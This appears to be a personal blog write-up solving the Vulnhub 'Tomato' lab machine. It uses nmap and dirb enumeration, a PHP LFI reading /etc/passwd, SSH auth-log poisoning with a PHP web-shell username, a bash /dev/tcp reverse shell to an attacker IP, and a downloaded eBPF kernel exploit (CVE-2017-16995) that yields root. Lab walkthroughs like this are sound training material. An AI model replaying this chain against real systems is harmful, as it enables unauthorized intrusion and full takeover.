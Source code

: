 ```yaml
---
title: Vulnhub - Tomato
description: My writeup on Tomato box.
categories:
 - vulnhub
tags: vulnhub LFI
---
```


![](https://www.hdwallpaper.nu/wp-content/uploads/2017/03/tomato-3.jpg)

You can find the machine there > [Tomato](https://www.vulnhub.com/entry/tomato-1,557/){:target="_blank"}

## Summary

This one was a pretty good one, a bit "advanced". We start by finding an LFI on `info.php` page this drive us to a ssh log poisoning attack. After gaining a low-privilege shell we can privesc to root by exploiting an old kernel version. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00012s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2211/tcp open  emwin
8888/tcp open  sun-answerbook
MAC Address: 00:0C:29:04:21:BA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
$ nmap -p 21,80,2211,8888 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00039s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:53:0a:91:8c:f1:a6:10:11:0d:9e:0f:22:f8:49:8e (RSA)
|   256 b3:12:60:32:48:28:eb:ac:80:de:17:d7:96:77:6e:2f (ECDSA)
|_  256 36:6f:52:ad:fe:f7:92:3e:a2:51:0f:73:06:8d:80:13 (ED25519)
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: 401 Authorization Required
```

Lot of stuff to enumerate, let's focus on port 80 first. I tried to run gobuster on it but nothing:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/server-status (Status: 403)
```

Then i had the idea to run dirb on it and it worked, an interesting directory showed up.

```
$ dirb http://$ip/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Sep 19 13:38:33 2020
URL_BASE: http://192.168.1.16/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.16/ ----
==> DIRECTORY: http://192.168.1.16/antibot_image/         
```

Has lot of stuff in, but only `info.php` is useful.

![](https://i.imgur.com/VXTvdXH.png)

A good practise is always to check the source code of a page, even if it is a php one you never know. `info.php` has a really interesting comment!

```html
<!-- </?php include $_GET['image']; -->
```

`include == LFI` Since the super global variable `$_GET` has the `image` in the payload will go like that:

```
$ curl http://192.168.1.16/antibot_image/antibots/info.php\?image\=../../../../../../../../../etc/passwd             

.. data ..

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:109:117:ftp daemon,,,:/srv/ftp:/bin/false
```

## Shell as www-data

I enumerated a lot, but nothing. One thing left, that is log poisoning but we need to be able to read log files. And we can do SSH log poisoning because we can run the `/var/log/auth.log`!

First we have to login with a php code as username:

```
$ ssh '<?php system($_GET["cmd"]);?>'@$ip -p 2211
<?php system($_GET["cmd"]);?>@192.168.1.16's password: 
```

Now we have command execution:

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=id
```

In the end we can see this:

```
invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's simply now URL encode our reverse shell and send it. You can use this awesome tool to URL encode/decode from terminal:

```
sudo apt-get install gridsite-clients
```

```
$ urlencode "bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

We have shell!

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@ubuntu:/var/www/html/antibot_image/antibots$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/antibot_image/antibots$ 
```

## Shell as root

I noticed that kernel is pretty old:

```
www-data@ubuntu:/$ uname -a
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Let's fire up [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester){:target="_blank"} :fire:

```
www-data@ubuntu:/tmp$ wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
www-data@ubuntu:/tmp$ bash linux-exploit-suggester.sh

..data..

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

This one seems good, but system haven't `gcc` installed so let's download and compile it on our box and then trasnfer it.

```
$ wget -q https://www.exploit-db.com/download/45010 -O root.c
$ gcc root.c -o root
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
www-data@ubuntu:/tmp$ wget -q http://192.168.1.14/root                                                                                
www-data@ubuntu:/tmp$ chmod +x root
www-data@ubuntu:/tmp$ ./root
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800356b2200
[*] Leaking sock struct from ffff88003b71a580
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800325b92c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8800325b92c0
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Let's read the flag.

```
# cat proof.txt
Sun_CSR_TEAM_TOMATO_JS_0232xx23
```

What an awesome box!!! :smile:
